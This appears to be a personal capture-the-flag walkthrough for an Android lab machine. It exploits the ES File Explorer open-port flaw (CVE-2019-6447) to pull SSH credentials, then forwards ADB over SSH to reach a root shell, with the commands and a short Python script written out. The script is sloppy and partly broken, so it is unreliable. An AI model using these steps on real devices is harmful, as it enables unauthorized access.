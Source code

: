 ### Box Info
OS: Android
IP: 10.10.10.247

## Part I 

### Skills learned:
Curl/Python
Andriod OS + tools

### Enum
nmap -p- -A -oN Exploreprts.txt ${IP}
+ 2222 SimplSSH
+ 5555 Andriod Debug bridge
+ 42135 ES File explorer
+ 59777 Bukkit JSONAPI
+ 44233 fingerprint-strings

### Search
Yields CVE-2019-6447
+ https://github.com/fs0c131y/ESFileExplorerOpenPortVuln
+ https://www.exploit-db.com/exploits/50070

### Step 1: file extraction
+ python3 poc.py ${cmd} ${IP} 
+ python3 poc.py ${cmd} ${IP} $dir/$.jpg
+ [+] Done. Saved as 'out.dat'.

Now that you have downloaded the file, open the URL in a browser.
+ ${IP}:59777/$dir/$.jpg
+ File gives UN && PW

### Step 2: SSH
+ ssh -p 2222 $UN@${IP} 
+ ${PW}

### Info gathering
+ :/whoami
u0_a76
+ :/uname -a 
Linux localhost 4.9.214-android-x86_64-g04f9324 #1 SMP PREEMPT Wed Mar 25 17:11:29 CST 2020 x86_64
+ :/find / -perm /6000 2>/dev/null
/system/xbin/procmem
/system/xbin/su
+ :/ $ id
uid=10076(u0_a76) gid=10076(u0_a76) groups=10076(u0_a76),3003(inet),9997(everybody),20076(u0_a76_cache),50076(all_a76) context=u:r:untrusted_app:s0:c76,c256,c512,c768

### Find Flag
Have fun searching! 

## Part II

### Skills learned
ssh port forwarding
adb tool

### Install tools:
adroid-tools-adb

### Port forwarding script.py:
import socket\
import subprocess\
import pyautogui\
import time\
\
def connection_function(host, port):\
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)\
    s.connect((host, port))\
    print(s.recv(1024))\
\
connection_function("${IP}", 2222)\
\
def adb_connection(host, port):\
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)\
    s.connect((host, port))\
    print(s.recv(1024))\
\
    subprocess.call(['ssh -p 2222 -L 5555:localhost:5555 kristi@${IP}'], shell=True)\
    password = "[PASSWORD OF TARGET MACHINE OF SSH]"\
    print(s.recv(1024))\
\
adb_connection("${IP}", 2222)\

### Start port-forwarding server
+ adb start-server
+ adb connect localhost:5555
+ adb devices

### Initiate root shell:
+ adb -s localhost:5555 shell

### Find root Flag!
Happy searching!
